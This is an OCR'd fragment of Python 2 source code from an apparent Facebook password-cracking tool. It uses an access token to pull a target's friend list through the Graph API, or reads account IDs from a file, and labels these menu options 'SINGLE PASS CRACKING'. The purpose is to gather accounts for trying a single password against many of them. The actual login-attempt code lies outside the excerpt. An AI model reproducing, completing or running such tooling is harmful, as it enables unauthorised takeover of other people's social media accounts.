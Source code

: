         try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     SINGLE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rx == '4':
        os.system('clear')
        print logo
        print '\t     SINGLE PASS FILE CRACK'
        print '\x1b[1;97m======================================================='
        
        try:
            filelist = raw_input('[?] INPUT FILE NAME : \x1b[1;92m')
            for line in open(filelist, 'r').readlines():
                id.append(line.strip())
        except (KeyError, IOError):
            print '\t    \x1b[1;38mRequested file not found\x1b[0;98m'
            raw_input(' Press enter to back ')
            choice()
        
 
    if rx == '3':
        os.system('clear')
        print logo
        print '\t     SINGLE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[1] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 